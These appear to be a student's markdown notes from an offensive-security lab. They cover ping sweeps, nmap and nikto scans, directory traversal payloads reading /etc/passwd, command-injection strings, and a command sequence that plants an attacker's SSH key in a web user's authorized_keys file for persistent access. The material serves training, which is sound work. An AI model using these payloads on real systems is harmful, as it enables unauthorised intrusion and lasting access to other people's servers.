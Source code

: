 ### Host Discovery
- Narrow the scope 
  - ping sweep (see whats out there maybe cuz huge subnet)
    - `for i in {1..254} ;do (ping -c x.x.x.x | grep "bytes from" &) ;done`
  - now can enumerate the hosts, nmap
    - nmap the well-known ports, notice some important services
      - say it's http, you can use those scripts, some examples below:
      - `nmap -v -sT -Pn -T4 --script http-robots.txt.nse X.X.X.X`
      - `nmap -v -sT -Pn -T4 --script http-enum.nse X.X.X.X`
        - may need `=` connecting "--script" with "http-blahblah"
      - `nikto -h X.X.X.X`
- use web exploitation tools (view source, sql, inspect element, etc) ***HE SAID SOMETHING ABOUT CHANGING OPACITY, CODE COULD BE BLACK AND/OR WHITE IN PAGE SRC OR CONSOLE THAT WOULD'T NORMALLY BE VISIBLE***

### Web Exploitation
- Directory Traversal - information
  - ../../../../../../../../etc/passwd
  - ../../../../../../../../etc/group
  - ../../../../../../../../etc/hosts
  - ../../../../../../../../etc/networks
  - ../../../../../../../../etc/resolv.conf
- Cmd Injection - Information/Access
  - `; id`
  - `; whoami`
  - `; cat`
  - `; <CMD>`
- want to upload your SSH key to user that you are home directory
  - find the default home directoru, for the user, based off of /etc/passwd
    - `www-data:x:33:33:www-data:/var/www:/bin/bash` 
  - generate your own ssh keys 
    - `@linops: ssh-keygen -t rsa -b 4096` 
      - set no password
      - saves public key in /home/student/.ssh/id_rsa.pub
        - **dont use privat key dumbass**
      - `cat /home/student/.ssh/id_rsa.pub
      - copy the text and save it to put it on the vulnerable web stuff
  - utilizing command injection,
  - `; ls -la /var/www` to see what's there
    - if /.ssh directory is not there, create it
    - `; mkdir var/www//.ssh`
  - `; touch /var/www/.ssh/authorized_keys`
  - `; ls -la /var/www/.ssh` - **ALWAYS CHECK TO MAKE SURE THE THINGS YOU DID ACTUALLY HAPPENED**
  - `; echo "(id_rsa.pub conents)" >> /var/www/.ssh/authorized_keys`
- Good walkthrough for all this on **Web Exploitation Day 1** 
















